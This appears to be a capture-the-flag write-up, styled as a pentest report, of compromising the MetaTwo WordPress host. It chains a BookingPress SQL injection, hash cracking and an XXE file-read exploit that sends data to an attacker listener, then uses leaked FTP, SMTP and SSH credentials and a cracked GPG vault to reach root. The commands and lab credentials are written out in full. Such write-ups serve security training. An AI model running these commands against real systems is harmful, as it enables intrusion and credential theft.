

## Engagement Overview

The auditor was tasked with assessing the host behind **MetaTwo**, a Linux server running a **WordPress** company website, under a black-box methodology with no prior credentials. The objective was to identify exploitable weaknesses reachable from an unauthenticated network position and determine the maximum level of access achievable.

## Methodology

The engagement followed a standard four-phase approach: reconnaissance, vulnerability identification, exploitation, and privilege escalation. Each finding below is presented with its technical root cause, the steps taken to validate it, and remediation guidance.

## Reconnaissance

```bash frame="code"
$ nmap -sCV 10.10.11.186 -p 21,22,80
21/tcp open  ftp     ProFTPD Server (Debian)
22/tcp open  ssh     OpenSSH 8.4p1 Debian
80/tcp open  http    nginx 1.18.0
```

Port 80 hosted an outdated **WordPress 5.6.2** site. Anonymous FTP access was denied and no additional subdomains were found via fuzzing. Enumerating individual site pages (rather than just the homepage) revealed a plugin not referenced on the main page: **BookingPress Appointment Booking**, version 1.0.10, loaded only on the `/events` endpoint.

## Finding 1: SQL Injection in the BookingPress Plugin (CVE-2022-0739)

> [!CAUTION]
> **Severity: Critical.** Unauthenticated database access, including administrator password hashes.

BookingPress 1.0.10 was confirmed vulnerable to **CVE-2022-0739**, an unauthenticated SQL injection. The tester used a public proof-of-concept to dump the WordPress user table directly:

```bash frame="code"
$ python3 booking.py -u http://metapress.htb -n 5e1fde1b14
|admin|admin@metapress.htb|$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.|
|manager|manager@metapress.htb|$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70|
```

The `manager` hash was cracked offline against a common password list:

```bash frame="code"
$ hashcat -m 400 wordpress.hash /usr/share/wordlists/rockyou.txt
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar
```

This gave the tester valid credentials for the WordPress admin panel, under a non-administrator "manager" role:



## Finding 2: XXE via the Media Library (CVE-2021-29447)

> [!CAUTION]
> **Severity: High.** Arbitrary file read on the underlying host via an authenticated XXE injection.

The `manager` account could upload media but was blocked from uploading executable web shell content, including disguised `.phar` files. WordPress 5.6.2, running on PHP 8, was confirmed vulnerable to **CVE-2021-29447**: a crafted WAV file with a malformed ID3 tag causes the Media Library's XML parser to process an external entity, allowing arbitrary file disclosure.

The tester used a public proof-of-concept to read `/etc/passwd` and, subsequently, WordPress's own configuration file:

```bash frame="code"
$ python3 CVE-2021-29447.py --lhost 10.10.16.4 --lport 4444 --target http://metapress.htb --user manager --password partylikearockstar --file ../wp-config.php
```

This disclosed the site's database credentials and, critically, a separate FTP account used by WordPress's filesystem method:

- **Database**: `blog` / `635Aq@TdqrCwXFUZ`
- **FTP**: `metapress.htb` / `9NYS_ii@FyL_p5M2NvJ`

## Initial Access

The tester authenticated to FTP with the disclosed credentials and located a mail-sending script referencing a live SMTP account:

```bash frame="code"
$ ftp -inv 10.10.11.186
ftp> cd mailer
ftp> get send_email.php
```

That script contained a hardcoded mail account credential:

```php
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

That password was valid for SSH as `jnelson`, yielding the user flag:

```bash frame="code"
$ ssh jnelson@10.10.11.186
jnelson@meta2:~$ ls -la
-rw-r----- 1 root    jnelson   33 Aug  6 02:29 user.txt
```

## Finding 3: Root via a GPG-Encrypted Password Manager

> [!WARNING]
> **Severity: High.** A local password vault protected by a weak, crackable passphrase.

The user's home directory contained a hidden `.passpie` folder, a GPG-backed password manager storing entries for both `jnelson` and `root`. The tester exfiltrated the store and its key material, generated a crackable hash from the private key, and recovered the vault passphrase offline:

```bash frame="code"
$ gpg2john root.key > gpg.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash
blink182         (Passpie)
```

Decrypting the `root` entry directly with GPG (working around a `passpie` CLI compatibility issue) recovered the root account's password:

```bash frame="code"
$ gpg -d /tmp/root.asc
p7qfAZt4_A1xo_0x
```

The recovered password did not work over SSH, but was valid for a local privilege switch:

```bash frame="code"
jnelson@meta2:/tmp$ su -
Password:
root@meta2:~# cat root.txt
```

This confirmed full root compromise of the host.

## Impact

This engagement chained three independent weaknesses across two different trust boundaries: an unauthenticated SQL injection in a third-party plugin led to an authenticated foothold, an XXE bug in WordPress's own core Media Library escalated that into infrastructure credential disclosure, and a weak local vault passphrase converted a standard user account into root. An attacker exploiting this chain would gain unrestricted control of the host, the WordPress database, and the mail-relay credentials used to send mail as the organization.

## Recommendations

- **Patch or remove the BookingPress plugin** to a version that resolves CVE-2022-0739; audit all installed plugins for unauthenticated database access, not just the ones linked from the homepage.
- **Update WordPress core** past 5.7.1 to resolve the Media Library XXE (CVE-2021-29447).
- **Rotate all credentials** disclosed via the configuration file (database, FTP, SMTP); none should have been reachable from a "manager"-level account in the first place.
- **Enforce strong, unique passphrases on local password vaults**, and do not store vault files in world- or group-readable home directories.

## Conclusion

The auditor successfully demonstrated a full compromise of the MetaTwo host, from an unauthenticated plugin SQL injection to WordPress admin access, through an XXE-driven credential leak, and finally to root via a crackable password manager passphrase. All three findings are detailed above with reproduction steps and remediation guidance.
